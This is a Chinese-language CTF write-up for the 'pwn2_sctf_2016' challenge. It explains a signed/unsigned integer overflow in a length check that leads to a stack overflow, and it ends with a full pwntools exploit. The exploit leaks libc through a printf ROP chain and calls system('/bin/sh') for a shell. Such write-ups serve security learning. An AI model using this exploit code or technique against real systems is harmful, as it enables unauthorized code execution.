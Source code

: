 ## 0x001 程序分析

分析vuln函数

![](1.png)

函数中首先使用 **get_n** 接收输入4个字符，然后使用atoi将输入的字符串转化为整数

如果输入的整数大于32，则报错，如果小于32，则可以输入该长度字符。

## 0x002 漏洞分析

由于 **nptr** 数组的长度为32，那么根据程序的限制，只能接收输入长度小于32的字符串，那么如果输入的长度小于32，则不能造成栈溢出。

那么只能进入 **get_n** 查看一下

![](2.png)

在这里可以看到， **get_n** 接收的输入的第二个参数也就是接收输入长度为 **无符号整型**，而在vuln中调用 **get_n** 时，传的参数v2为 **有符号整型**，那么此时就会产生 **整型溢出** 漏洞。

比如我们在第一个输入时，输入 **-1**，那么atoi就会将 **-1** 转化为 **0xffffffff** 保存在内存中（32位整型数据占4字节）。当 **0xffffffff** 与 32 比较时，是以有符号整型和其比较的，也就是 -1 和 32 进行比较。当 **0xffffffff** 作为无符号整型作为接收输入长度时，也就是4294967295，这个长度就很大了，足够造成栈溢出了。

## 0x003 漏洞利用

上面已经分析了整数溢出的利用方式，有了整数溢出，就可以很轻松的利用栈溢出漏洞了。

查看程序只开启了 NX 保护

![](3.png)

那么接下来就是常规的栈溢出漏洞利用手法，构造ROP泄漏libc地址，然后调用system("/bin/sh")获取系统权限。

最终exp如下：
```
from pwn import *
from LibcSearcher import *

p = process("./pwn2_sctf_2016")
elf = ELF("pwn2_sctf_2016")

printf_got = elf.got["printf"]
printf_plt = elf.plt["printf"]
main_addr = elf.symbols["main"]

p.sendlineafter("How many bytes do you want me to read? ", "-1")

payload = b"A" * 48 + p32(printf_plt) + p32(main_addr) + p32(printf_got)
p.sendline(payload)

p.recvuntil(b"You said: ")
p.recv(61)
printf_real_addr = u32(p.recv(4))

libc = LibcSearcher("printf", printf_real_addr)
libcbase = printf_real_addr - libc.dump("printf")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")

p.sendlineafter(b"How many bytes do you want me to read? ", b"-1")
payload = b"A" * 48 + p32(system_addr) + p32(main_addr) + p32(bin_sh_addr)
p.sendline(payload)

p.interactive()
```